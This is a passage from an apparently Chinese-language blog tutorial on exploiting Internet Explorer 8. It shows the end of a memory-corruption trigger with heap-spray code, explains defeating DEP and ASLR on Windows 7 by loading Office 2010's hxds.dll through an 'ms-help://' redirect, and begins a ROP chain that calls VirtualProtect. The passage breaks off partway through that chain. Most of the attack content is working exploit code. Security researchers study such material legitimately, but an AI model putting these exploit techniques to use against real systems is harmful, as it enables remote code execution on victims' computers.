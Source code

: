      e1.applyElement(e0);
     e2.outerText = <span class="hljs-string">""</span>;
     e2.appendChild(document.createElement(<span class="hljs-string">'body'</span>));
 } <span class="hljs-keyword">catch</span>(e) { }
 CollectGarbage();
 <span class="hljs-keyword">for</span>(<span class="hljs-keyword">var</span> i = <span class="hljs-number">0</span>; i&lt;<span class="hljs-number">0x550</span>; i++)
 {
     arr_div[i]= document.createElement(<span class="hljs-string">"div"</span>);
     arr_div[i].title= junk.substring(<span class="hljs-number">0</span>,(<span class="hljs-number">0x58</span>-<span class="hljs-number">6</span>)/<span class="hljs-number">2</span>);
 }
 }

</span><span class="hljs-tag">&lt;/<span class="hljs-title">script</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">head</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">body</span> <span class="hljs-attribute">onload</span>=<span class="hljs-value">"eval(helloWorld())"</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-title">form</span> <span class="hljs-attribute">id</span>=<span class="hljs-value">"a"</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">form</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">body</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-title">html</span>&gt;</span></code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629180354132?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p><strong>有DEP：</strong> <br>
上述情况是在xp情况下 可以实行的应为没有windows的保护机制，而在本实验环境下是不能够实行的，在win7的ie8下有alsr以及dep的保护我们采取的措施是使用未开启alsr 的office2010的hxds.dll以及构造ROP链关闭ie8的数据保护。 <br>
使用<code>location.href = 'ms-help://'</code>可以让ie浏览器自动加载hxds.dll模块（一般情况下ASLR是关掉的） <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170707154747898?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
首先让浏览器加载hxds.dll</br></img></br></br></br></p>
<pre class="prettyprint"><code class=" hljs xml">
 <span class="hljs-doctype">&lt;!DOCTYPE html&gt;</span>
 <span class="hljs-tag">&lt;<span class="hljs-title">html</span>&gt;</span>
 <span class="hljs-tag">&lt;<span class="hljs-title">head</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-title">title</span>&gt;</span>test<span class="hljs-tag">&lt;/<span class="hljs-title">title</span>&gt;</span>
 <span class="hljs-tag">&lt;/<span class="hljs-title">head</span>&gt;</span>
 <span class="hljs-tag">&lt;<span class="hljs-title">body</span>&gt;</span>
 <span class="hljs-tag">&lt;<span class="hljs-title">script</span> <span class="hljs-attribute">type</span>=<span class="hljs-value">"text/javascript"</span>&gt;</span><span class="javascript">
    location.href = <span class="hljs-string">'ms-help://'</span>;
 </span><span class="hljs-tag">&lt;/<span class="hljs-title">script</span>&gt;</span>
 <span class="hljs-tag">&lt;/<span class="hljs-title">body</span>&gt;</span>
 <span class="hljs-tag">&lt;/<span class="hljs-title">html</span>&gt;</span></code></pre>
<p>利用immunity Debugger  的mona插件寻找rop链 <br>
下面给出一种rop链的构造方法</br></p>
<pre class="prettyprint"><code class=" hljs perl">var ropchain =   

<span class="hljs-string">"<span class="hljs-variable">%u34b4</span><span class="hljs-variable">%u51bf</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51bf34b4</span>     <span class="hljs-comment"># POP ESI # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%u10b8</span><span class="hljs-variable">%u51bd</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51bd10b8</span>     <span class="hljs-comment"># ptr to &amp;VirtualProtect() [IAT hxds.dll]</span>
<span class="hljs-string">"<span class="hljs-variable">%u2d97</span><span class="hljs-variable">%u51bd</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51bd2d97</span>     <span class="hljs-comment"># MOV EAX,DWORD PTR DS:[ESI] # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%ucba0</span><span class="hljs-variable">%u51bd</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51bdcba0</span>     <span class="hljs-comment"># XCHG EAX,ESI # RETN 00 [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%u79e2</span><span class="hljs-variable">%u51c3</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51c379e2</span>     <span class="hljs-comment"># POP EBP # RETN [hxds.dll] </span>
